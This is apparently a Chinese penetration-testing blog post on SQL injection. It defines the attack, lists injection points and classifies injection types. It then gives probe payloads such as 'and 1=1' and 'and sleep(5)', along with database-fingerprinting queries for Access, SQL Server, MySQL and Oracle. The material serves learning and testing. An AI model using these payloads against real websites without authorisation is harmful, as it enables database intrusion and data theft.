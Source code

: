 +++
date = "2016-06-19T19:40:25+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入"
topics = ["Pentest"]

+++

### 0x00 含义
sql注入是将代码插入(拼接)到应用(用户)的输入参数中，之后再将这些参数传递给后台的SQL服务器加以解析并执行的攻击，

总结起来就是攻击者将恶意代码拼接到sql语句并加以执行从而得到数据的过程。

### 0x01 成因
SQl语句未对用户参数进行严格过滤

### 0x02 可引发注入的地方
其实只要是客户端可控、参数值代入数据库查询的地方都可能存在注入，常见的如下，按出现频率排序：

* GET
* POST
* X-Forwarded-For
* Cookie
* User-Agent

### 0x03 注入分类
* 根据语法(较权威)
    * UNION query SQL injection(可联合查询注入)  
        只要页面有显示位即可使用，且注入速度很快
    * Error-based SQL injection(报错型注入)  
        没有显示位但用echo "mysql_error()"输出了错误信息，速度很快，但是语句较复杂
    * Boolean-based blind SQL injection(布尔型注入)  
        一次一个字节，速度慢，但只要有注入就能用
    * Time-based blind SQL injection(基于时间延迟注入)  
        超级慢，比布尔型注入慢几倍，但是通用性较强
    * Stacked queries SQL injection(堆叠注入/可多语句查询注入)  
        只有SQL Server可以使用

* 根据类型
    * 整形  
        形如```"a.asp?ID=55"```，这类注入的参数是"数字"，因此称为"数字型注入点"。
    * 字符串型  
        形如```"b.asp?name=xiaoming"```这类注入的参数是"字符"，称为"字符型"注入点。  
    * 搜索型  
        指在进行数据搜索时没过滤搜索参数，直接通过搜索框表单提交。  

### 0x04 查找注入点
* 在URL中
    * and 1=1/and 1=2(整型)
    * 随即输入(整型)
    * -1/+1 回显上下页面(整型)
    * 单引号(字符型/整型)
    * and sleep(5) (判断页面返回时间)

* 在http头
    * X-Forwarded-For
    * Cookie
    * User-Agent

### 0x05 SQL注入之判断数据库类型
* 常见手段
    * 扫描端口、指纹、抓包查看http头信息、在网址后面直接判断

* 根据各数据库特有函数判断
    * Access:
    ```
    and (select count(*) from MSysAccessObjects)>0   返回正常说明是access
    and exists(select count(*) from表)
    ID=1 and (select count (*) from sysobjects)>0 返回异常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ```

    * SQLServer:
    ```
    and (select count(*) from sysobjects) >0   返回正常说明是mssql
    ID=1 and (select count (*) from sysobjects)>0 返回正常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ID=1 and left(version(),1)=5%23  //红色字体也可能是4
    ID=1 and exists(select id from sysobjects)
    ID=1 and len(user)>0 
    ID=1 CHAR(97)+CHAR(110)+CHAR(100)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)
    ```

    * MySQL:
    ```
    and length(user())>0   返回正常说明是MySQL
    id=2 and version()>0 返回正常
    id=2 and length(user())>0
    id=2 CHAR(97, 110, 100, 32, 49, 61, 49)
    ```

    * ORACLE:
    ```
    ID=1  and '1'||'1’='11'
    ID=1  and 0<>(select count(*) from dual) 
    ID=1 CHR(97) || CHR(110) || CHR(100) || CHR(32) || CHR(49) || CHR(61) || CHR(49)
    ```

* 其他方法
    ```
    "/*"是MySQL中的注释符，返回错误说明该注入点不是MySQL，继续提交如下查询字符：
    "--"是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：
    ";"是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
    ```
